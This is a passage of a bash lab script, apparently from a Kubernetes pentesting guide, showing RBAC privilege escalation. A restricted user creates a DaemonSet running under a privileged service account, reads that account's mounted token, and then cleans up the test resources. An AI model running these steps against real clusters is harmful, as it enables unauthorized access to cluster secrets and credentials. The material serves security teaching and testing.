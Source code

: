 ```bash
    namespace: default
    name: test-sa
    apiGroup: ""
roleRef:
  kind: ClusterRole
  name: test-cr
  apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Check test-sa can access kube-system secrets
kubectl --as system:serviceaccount:default:test-sa -n kube-system get secrets

# Check user User can get pods in namespace default
kubectl --as Test -n default get daemonsets

# Create a daemonset as user Test with the SA test-sa (privesc step)
echo "apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: alpine
  namespace: default
spec:
  selector:
    matchLabels:
      name: alpine
  template:
    metadata:
      labels:
        name: alpine
    spec:
      serviceAccountName: test-sa
      automountServiceAccountToken: true
      hostNetwork: true
      containers:
      - name: alpine
        image: alpine
        command: ['/bin/sh']
        args: ['-c', 'sleep 100000']"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default daemonset.apps/alpine -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete daemonset alpine
kubectl delete clusterrolebinding test-crb
kubectl delete clusterrole test-cr
kubectl delete rolebinding test-rb
kubectl delete role test-r
kubectl delete serviceaccount test-sa
```
